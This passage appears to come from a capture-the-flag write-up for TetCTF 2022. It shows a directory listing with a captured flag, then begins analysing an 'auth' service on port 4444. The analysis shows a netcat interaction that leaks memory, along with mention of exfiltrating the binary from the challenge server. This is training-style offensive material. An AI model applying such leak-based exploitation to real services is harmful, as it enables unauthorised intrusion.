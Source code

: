 ```
-r--r--r--   1 root   root       41 Jan  1 00:03 flag
-r--------   1 daemon daemon     41 Jan  1 00:03 flag2
drwxr-xr-x   2 root   root     4096 Apr 15  2020 home
lrwxrwxrwx   1 root   root        7 Oct  6 16:47 lib -> usr/lib
lrwxrwxrwx   1 root   root        9 Oct  6 16:47 lib32 -> usr/lib32
lrwxrwxrwx   1 root   root        9 Oct  6 16:47 lib64 -> usr/lib64
lrwxrwxrwx   1 root   root       10 Oct  6 16:47 libx32 -> usr/libx32
drwxr-xr-x   2 root   root     4096 Oct  6 16:47 media
drwxr-xr-x   2 root   root     4096 Oct  6 16:47 mnt
drwxr-xr-x   2 root   root     4096 Oct  6 16:47 opt
dr-xr-xr-x 995 root   root        0 Jan  1 03:44 proc
drwx------   1 root   root     4096 Jan  1 03:40 root
drwxr-xr-x   1 root   root     4096 Jan  1 00:06 run
-rwxr-xr-x   1   1000   1000    189 Dec 31 15:29 run.sh
lrwxrwxrwx   1 root   root        8 Oct  6 16:47 sbin -> usr/sbin
drwxr-xr-x   2 root   root     4096 Oct  6 16:47 srv
dr-xr-xr-x  13 root   root        0 Jan  1 03:44 sys
drwxrwxrwt   1 root   root     4096 Jan  1 06:57 tmp
drwxr-xr-x   1 root   root     4096 Jan  1 00:05 usr
drwxr-xr-x   1 root   root     4096 Jan  1 00:05 var
TetCTF{65e95f4eacc1fe7010616e051f1c610a}
0

```

**Flag:** `TetCTF{65e95f4eacc1fe7010616e051f1c610a}`


### Part 2

Note: Unfortunately, I didn't solve this during the few hours I played during the competition since
the `auth` server was crashed by some other players early during the CTF. However, I think the
exploit should work remotely barring the pwntools dependency.

Once on the server, we can exfiltrate the `auth` binary that's listening on port 4444 of the remote
server.

Attachment: [auth]({{ site.url }}{{ site.baseurl }}/assets/files/tetctf2022/auth)

To simulate the remote service, we can create a flag at `/flag2`.

```console
# echo 'TetCTF{Fake_Flag_Because_Service_Is_Down}' > /flag2
```

When running and interacting with the service, we notice that something odd is going on with the
output. It looks like it's leaking `0x100` bytes of memory along with the `'Y` or `'N'` return code.

```console
$ printf 'admin\nadmin\n' | nc localhost 4444 | xxd
00000000: 5964 6d69 6e0a 6164 6d69 6e0a ff80 5b9a  Ydmin.admin...[.
00000010: a011 b945 fc7f 0000 2497 0000 0000 0000  ...E....$.......
00000020: 0300 0000 0000 0000 a011 b945 fc7f 0000  ...........E....
00000030: 8c11 b945 fc7f 0000 8860 4900 0000 0000  ...E.....`I.....
00000040: b400 0000 0000 0000 88c6 4400 0000 0000  ..........D.....
00000050: 2000 0000 3000 0000 8011 b945 fc7f 0000   ...0......E....
00000060: c010 b945 fc7f 0000 0031 2918 ff80 5b9a  ...E.....1)...[.
00000070: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000080: 4898 3202 0000 0000 2497 0000 0000 0000  H.2.....$.......
00000090: 249c 4900 0000 0000 f00f b945 fc7f 0000  $.I........E....
000000a0: 802b 4c00 0000 0000 0a00 0000 0000 0000  .+L.............
000000b0: 2013 4c00 0000 0000 7260 4900 0000 0000   .L.....r`I.....
000000c0: 402f 4c00 0000 0000 1810 4c00 0000 0000  @/L.......L.....
000000d0: 0000 0000 0000 0000 036d 4100 0000 0000  .........mA.....
000000e0: 1000 0000 0000 0000 2013 4c00 0000 0000  ........ .L.....
000000f0: 2497 0000 0000 0000 0000 0000 0000 0000  $...............
```